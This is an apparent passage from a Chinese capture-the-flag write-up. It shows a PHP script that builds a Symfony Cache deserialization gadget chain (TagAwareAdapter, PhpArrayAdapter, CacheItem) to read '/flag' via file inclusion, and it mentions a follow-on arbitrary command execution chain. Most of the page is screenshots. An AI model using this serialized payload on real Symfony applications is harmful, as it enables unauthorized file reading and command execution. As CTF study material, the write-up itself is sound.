 ![image-20211229203752591](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229203752591.png)

![image-20211229203849687](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229203849687.png)

![image-20211229203857403](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229203857403.png)

这是文件包含的链子 生成exp了。

```php
<?php
namespace Symfony\Component\Cache\Adapter{
    class TagAwareAdapter{
        public $pool;//
        public function __construct($a,$b){
            $this->pool= $a;
            $this->deferred = array("a"=>$b);
        }
    }

    class PhpArrayAdapter{
    public function __construct(){
        $this->values = null;
        $this->file = "/flag";
        }
    }
    
}
namespace Symfony\Component\Cache{
    class CacheItem{
    protected $innerItem = 'ls';
}
}
namespace{
echo urlencode(serialize(new \Symfony\Component\Cache\Adapter\TagAwareAdapter(new \Symfony\Component\Cache\Adapter\PhpArrayAdapter(),new \Symfony\Component\Cache\CacheItem())));}

```

![image-20211229205254794](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229205254794.png)

任意命令执行的链子

起点不变

![image-20211229205525462](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229205525462.png)

![image-20211229205542330](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229205542330.png)

![image-20211229205856688](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229205856688.png)

这里又学到一个新知识:`"\0*\0innerItem"`获取protected属性。

直接抄网上的exp
